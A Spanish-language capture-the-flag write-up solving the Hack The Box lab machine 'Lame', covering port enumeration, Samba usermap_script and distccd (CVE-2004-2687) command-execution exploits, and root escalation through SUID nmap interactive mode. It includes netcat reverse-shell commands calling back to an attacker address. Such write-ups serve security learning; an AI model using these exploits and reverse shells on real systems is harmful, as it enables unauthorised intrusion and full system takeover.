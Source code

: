 ```yaml
---
layout: single
title: HackTheBox - Máquina Lame
excerpt: "Solución de la máquina Lame de Hack the Box"
date: 2021-03-18
classes: wide
header:
  teaser: /assets/images/htb/lame/lame.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Linux
---
```


<p align="center">
<img src="/assets/images/htb/lame/lame.png">
</p>

# Enumeración

Lanzamos un escaneo para ver los puertos que tiene abiertos y después lanzamos para obtener versiones y scripts básicos de nmap.

```bash
nmap -sS --min-rate 5000 -p- --open -T5 -v -n -Pn -oG allPorts 10.10.10.3

nmap -sV -sC -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

Y obtenemos el siguiente resultado:

```text
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

# Explotación
Cuando empecé con esta máquina de HTB usé Metasploit por no tener experiencia. Cuando me propuse crear este contenido también empece a ver vídeos y streams de gente que se dedica al mundo de la Ciberseguridad para adquirir conocimientos. Viendo un vídeo acerca de esta máquina, vi que también se podía hacer de forma manual por lo que también lo voy hacer de esta forma para adquirir ese conocimiento.

Después de analizar el FTP mediante el acceso anónimo y ver que no hay nada disponible, analizamos *samba y el software distcc* como posible vector de ataque.

## Automática (Metasploit)

Buscamos la versión de samba 3.0.20 con searchsploit.

```bash
searchsploit samba 3.0.20
```

Y obtenemos el siguiente resultado:

```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                            | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
```

Abrimos metasploit y usamos `use exploit/multi/samba/usermap_script`. Configuramos las opciones con `show options` y el payload `show payload` (`cmd/unix/reverse`), el siguiente paso es ejecutar con `exploit` y obtenemos la reverse shell. Ya solo quedaría obtener la flag de usuario y de root, ya que de este modo somos root.

## Explotación Manual

Como he mencionado antes esta parte la vi en el writeup de s4vitar, por lo que voy a reproducirla para aprender de forma manual.

### Samba

Buscamos un script mediante `searchsploit samba 3.0 command execution` y obtenemos lo siguiente:

```bash
searchsploit samba 3. command execution
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)     | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------
```

Mediante `smbmap -H 10.10.10.3 ` vemos los permisos de los recursos compartidos de la máquina:

```bash
smbmap -H 10.10.10.3      
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Nos conectamos al directorio /tmp `smbclient //10.10.10.3/tmp --option="client min protocol=NT1" -N` utilizando null sesión, también hay que añadirle el parámetro --option ya que si no lo pones te saltara un error de autenticación.

Analizando el script vemos que hace un login con el siguiente usuario:

```bash
`username = "/=`nohup " + payload.encoded + "`"`
```

Estando conectado al recurso compartido, lanzamos un login con el siguiente formato para poder obtener una conexión vía netcat a nuestra máquina.

```bash
smb: \> logon "/=`nohup nc -e /bin/bash <ip_atacante> <puerto>`"
Password: (Damos enter)
```

### Distcc

Si hacemos un `searchsploit distcc` nos sale lo siguiente:

```bash
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)     | multiple/remote/9915.rb
--------------------------------------------------------------------------------------------- ---------------------------------
```
Como se puede ver hay un script pero es a través de Metasploit, para hacerlo de forma manual con [exploit github](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

Ejecutamos con un whoami para probar:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c whoami
```

Cuando yo hice la prueba me daba el siguiente error:

```bash
[OK] Connected to remote service
a bytes-like object is required, not 'str'
[KO] Exception Raised
```

Por lo que tuve que editar para añadir el str.encode() y el decode en la siguientes variables:

<p align="center">
<img src="/assets/images/htb/lame/distcc_exploit.PNG">
</p>

Cuando el lanzamiento ha sido satisfactorio obtenemos por pantalla el usuario `daemon`, el siguiente paso es lanzar una shell hacia nuestra máquina:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash <ip> <puerto> &'
```

<span style="color:#d7f798">[IMPORTANTE] El nohup se pone para que cuando se lanza un exploit que te da una sesión y se cierra, se quede en segundo plano en otro proceso. Cuando obtenemos la reverse shell hacemos el tratamiento de la shell.</span>

Desde la carpeta home hacemos la búsqueda de la flag de user.txt y la mostramos con:

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

# Escalada de privilegios desde distcc

Para escalar privilegios en esta máquina hacemos uso de los suids:

```bash
find \-perm -4000 2>/dev/null
```
Para esta máquina vamos a usar <b>./usr/bin/nmap</b> para elevar privilegios, para ello usamos [GTFOBINS](https://gtfobins.github.io) para obtener una shell con el binario nmap. 

En GTFOBINS nos dice que hay dos maneras pero mirando la versión de nmap, se puede utilizar la b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands

```bash
daemon@lame:/$ nmap --version

Nmap version 4.53 ( http://insecure.org )
```

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Y ya nos queda ver la flag de root.
